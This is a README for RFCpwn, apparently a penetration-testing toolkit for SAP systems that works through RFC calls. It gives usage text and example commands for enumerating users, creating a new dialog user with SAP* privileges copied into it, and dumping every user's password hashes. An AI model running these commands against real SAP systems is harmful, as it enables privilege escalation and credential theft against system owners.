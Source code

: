 # RFCpwn
An SAP enumeration and exploitation toolkit using SAP RFC calls

Not for use in production environments
There is no guarantee of stability or support

RFCpwn relies on the pyrfc and the libraries provided by SAP in: https://github.com/SAP/PyRFC#installation
```shell
usage: RFCpwnv2.py [-h] [-debug] [-ip IP] [-u Username] [-p Password]
                   [-c Client] [-s Sysid] [-ping] [-enum] [-usercopy]
                   [-user USER] [-copy COPY] [-pw PW] [-dump] [-exp]

An Impacket style enumeration and exploitation tool using SAP RFC calls

optional arguments:
  -h, --help   show this help message and exit
  -debug       Turn DEBUG output ON

Authentication:
  -ip IP       <targetName or address>
  -u Username  RFC Users Username
  -p Password  RFC Users Password
  -c Client    Client- eg.000
  -s Sysid     System Number- eg 00
  -ping        RFC Ping Command

User Abuse:
  -enum        Use to enumerate a specific user
  -usercopy    add a Dialog User
  -user USER   Required for -usercopy and -userenum to specify the user
  -copy COPY   User to be copied required for -usercopy
  -pw PW       password of new user for -usercopy

Hash Collection:
  -dump        Dump hashes use with below
  -exp         EXPERIMENTAL - Dump BCODE / PASSCODE hashes
  ```
## Examples
Ping - confirm connectivity
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -ping
```
Copy a users rights into a new dialog user. If -copy is not specified SAP* is used.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -usercopy -user attacker -pw changeme1
```
Dump hashes from all users. option -exp for experimental bcode & passcode hashes.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -dump 
```
